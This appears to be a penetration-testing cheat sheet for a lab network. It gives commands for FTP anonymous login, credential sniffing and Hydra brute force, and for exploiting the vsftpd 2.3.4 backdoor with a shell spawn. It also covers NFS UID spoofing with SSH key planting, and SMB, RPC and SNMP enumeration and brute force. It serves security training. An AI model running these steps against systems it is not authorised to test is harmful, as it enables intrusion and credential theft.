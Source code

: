 📡 Network Protocols
Nmap (Network Mapper) is a powerful open-source tool used for network discovery and security auditing. It supports saving scan results in multiple formats, making it a go-to tool for penetration testers.

📁 FTP (File Transfer Protocol)
FTP is a standard network protocol used to transfer files between a client and server over TCP/IP, typically via ports 20/21.
It requires two channels:

Command channel (for control commands)

Data channel (for transferring files)

🚀 Penetration Testing on FTP
🔓 Anonymous Login
If port 21 is open (seen via Nmap), you can attempt to login with anonymous credentials:

bash
Copy
Edit
ftp 192.168.188.131
Name: Anonymous
Password: Anonymous
Successful login grants you access to the FTP server.



📡 Sniffing FTP Login Credentials
FTP sends traffic unencrypted. Capture traffic using Wireshark to view credentials:

bash
Copy
Edit
ftp 192.168.188.131
Apply the Wireshark filter:

plaintext
Copy
Edit
frame contains "PASS"
Captured credentials will appear in clear text.



🔥 FTP Brute-Force Attack
Using Hydra to perform dictionary attacks:

bash
Copy
Edit
hydra -L user -P pass 192.168.188.131 ftp
hydra -L wordlist.txt -P wordlist.txt 192.168.188.131 ftp


🛠️ Exploiting FTP via Nmap Script (vsftpd backdoor)
Nmap script to detect backdoor:

bash
Copy
Edit
sudo nmap -p 21 192.168.188.131 -sV --script ftp-vsftpd-backdoor.nse


Upon detection:

bash
Copy
Edit
nc 192.168.188.131 21
USER random6char:)
PASS random6char

nc 192.168.188.131 6200
whoami
python -c 'import pty; pty.spawn("/bin/bash")'


🎯 Exploiting FTP with Metasploit (vsftpd 2.3.4)
bash
Copy
Edit
msfconsole
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.188.131
exploit
Post exploitation:

bash
Copy
Edit
python -c 'import pty; pty.spawn("/bin/bash")'
find / -iname user.txt -exec wc {} \;


📂 NFS (Network File System)
NFS allows remote hosts to mount file systems over a network.

Scan NFS:

bash
Copy
Edit
nmap -p 2049 -sV 192.168.188.131
Mount NFS share:

bash
Copy
Edit
sudo mount 192.168.188.131:/ /home/kali/Downloads/nfs -nolock
Check permissions:

bash
Copy
Edit
ls -ld vulnix
If permission denied, identify user/group and create matching user:

bash
Copy
Edit
sudo groupadd --gid 2008 vulnix_group
sudo useradd --uid 2008 --groups vulnix_group vulnix
SSH Key Setup:

bash
Copy
Edit
ssh-keygen -t rsa -b 4096
cat ~/.ssh/id_rsa.pub | sudo -u vulnix tee -a vulnix/.ssh/authorized_keys
ssh vulnix@192.168.188.137


📦 SMB (Server Message Block)
SMB is used for sharing files, printers, and communications between devices.

🎯 SMB Enumeration
bash
Copy
Edit
sudo nmap -p 445 -sV -sC 192.168.188.131
enum4linux -L -S 192.168.188.131
smbclient -L 192.168.188.131 -N
smbmap -H 192.168.188.131
Anonymous login:

bash
Copy
Edit
smbclient --no-pass //192.168.188.131/tmp
🔥 SMB Vulnerabilities
If Samba 3.0.20 found:

bash
Copy
Edit
searchsploit samba 3.0.20
cat /usr/share/exploitdb/exploits/multiple/remote/10095.txt
If writeable share found, try uploading payloads for RCE.

📞 RPC (Remote Procedure Call)
Remote command execution protocol.

Connect:

bash
Copy
Edit
rpcclient 192.168.188.131 -U ''
srvinfo
enumdomusers
🌐 SNMP (Simple Network Management Protocol)
SNMP is used for managing network devices remotely.

Scan:

bash
Copy
Edit
snmpwalk -v1 -c public 192.168.188.131
Brute-force:

bash
Copy
Edit
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 192.168.146.156
🗂️ LDAP (Lightweight Directory Access Protocol)
LDAP allows centralized directory services, often storing user and network info.

🔐 SSH (Secure Shell)
SSH provides secure remote login.

🛠️ Create SSH RSA Key:
bash
Copy
Edit
ssh-keygen -t rsa -b 4096
🔐 Copy SSH Public Key:
bash
Copy
Edit
ssh-copy-id -i ~/.ssh/id_rsa.pub user@server_ip
Or manually append it to ~/.ssh/authorized_keys.

🧠 Quick Tips
showmount -e IP → List NFS exports

smbmap / enum4linux / smbclient → List SMB shares

rpcclient srvinfo → Get server info

onesixtyone / snmpwalk → SNMP enumeration

Metasploit → Look for known vulnerabilities

✨ Resources
HackTricks - SNMP Pentesting

SSH Public Key Authentication Guide
